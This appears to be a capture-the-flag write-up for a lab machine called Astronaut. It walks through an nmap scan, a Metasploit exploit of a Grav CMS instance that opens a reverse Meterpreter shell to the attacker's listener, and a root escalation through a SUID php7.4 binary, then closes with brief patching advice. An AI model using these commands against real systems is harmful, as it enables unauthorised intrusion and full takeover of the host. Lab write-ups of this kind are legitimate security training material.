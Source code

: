 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Astronaut
- Description: One small step for man, one giant leap for .....
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-title: Index of /
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Upon viewing the grav-admin page, I can see that it is some sort of cms. I try to enumerate the version but I get a 403:

![](assets/images/2024-01-24-OFFSEC-astronaut-writeup-image-1.png)

From there I will spray a couple of unauth exploits, because this should be an easy box...
```bash
msf6 exploit(linux/http/gravcms_exec) > run

[*] Started reverse TCP handler on 192.168.45.222:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Sending request to the admin path to generate cookie and token
[+] Cookie and CSRF token successfully extracted !
[*] Implanting payload via scheduler feature
[+] Scheduler successfully created ! Wait up to 93 seconds
[*] Sending stage (39927 bytes) to 192.168.238.12
[*] Cleaning up the scheduler...
[+] The scheduler config successfully cleaned up!
[*] Meterpreter session 1 opened (192.168.45.222:4444 -> 192.168.238.12:34512) at 2024-01-25 15:05:02 -0500

meterpreter > shell
Process 2562 created.
Channel 0 created.
whoami
www-data
```

Shell, even though it was a bit iffy so I sent it out to a different shell!
## Privilege Escalation
```bash
www-data@gravity:~/html/grav-admin/user/accounts$ find / -perm -u=s -type f 2>/dev/null
/snap/core20/1852/usr/bin/chfn
/snap/core20/1852/usr/bin/chsh
/snap/core20/1852/usr/bin/gpasswd
/snap/core20/1852/usr/bin/mount
/snap/core20/1852/usr/bin/newgrp
/snap/core20/1852/usr/bin/passwd
/snap/core20/1852/usr/bin/su
/snap/core20/1852/usr/bin/sudo
/snap/core20/1852/usr/bin/umount
/snap/core20/1852/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1852/usr/lib/openssh/ssh-keysign
/snap/core20/1611/usr/bin/chfn
/snap/core20/1611/usr/bin/chsh
/snap/core20/1611/usr/bin/gpasswd
/snap/core20/1611/usr/bin/mount
/snap/core20/1611/usr/bin/newgrp
/snap/core20/1611/usr/bin/passwd
/snap/core20/1611/usr/bin/su
/snap/core20/1611/usr/bin/sudo
/snap/core20/1611/usr/bin/umount
/snap/core20/1611/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1611/usr/lib/openssh/ssh-keysign
/snap/snapd/18596/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/at
/usr/bin/su
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.4
/usr/bin/gpasswd
```

Checking the suid binaries I see php7.4 is one of them. This should be an easy root!

```bash
www-data@gravity:~/html/grav-admin/user/accounts$ php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
root
```

## Beyond Root

Update the cms instance to patch vuln, get rid of the suid for root!

best,
gerbsec
